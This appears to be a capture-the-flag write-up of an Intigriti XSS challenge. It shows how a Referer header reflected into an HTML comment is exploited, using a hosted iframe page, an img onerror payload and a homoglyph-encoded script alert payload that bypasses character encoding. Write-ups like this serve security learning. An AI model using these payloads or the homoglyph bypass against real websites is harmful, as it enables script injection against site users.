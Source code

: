 link: https://challenge-1221.intigriti.io/challenge/index.php?payload=
Author: https://twitter.com/E1u5iv3F0x

+ In the payload field, when I first gave `<h1>test</h1>`
![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/02224fbb-8518-4b9d-b447-7252845cac79)
+ When I submitted the same payload for the second time,
![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/b36187ef-853c-40a6-96ed-1de0c72c2099)
+ The referer html comment: The Referer HTTP request header contains an absolute or partial address of the page that makes
the request. The Referer header allows a server to identify a page where people are visiting it from.
+ The idea is following: We as “attacker” setup a webserver with a webpage that redirects the
“victim” visiting our webpage to the challenge page. The referer comment should then show our
webpage.
+ I created my own page with the following contents
```
<html>
<head>
<meta name="referer" content="unsafe-url">
</head>
<body>
<iframe src="https://challenge-1221.intigriti.io/challenge/index.php?payload=">
</body>
</html>
```
+ create a python server and host it.
+ final payload: http://localhost/test.html?-->test<img src=test onerror=document.domain>
+ that still dont work  due to our < and > being encoded
+ https://www.irongeek.com/homoglyph-attack-generator.php
+ Homoglyphs are input “look a like” characters
FInal payload:  http://localhost/test.html? --＞＜script＞alert(document.domain)＜/script＞

# Reference:
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy
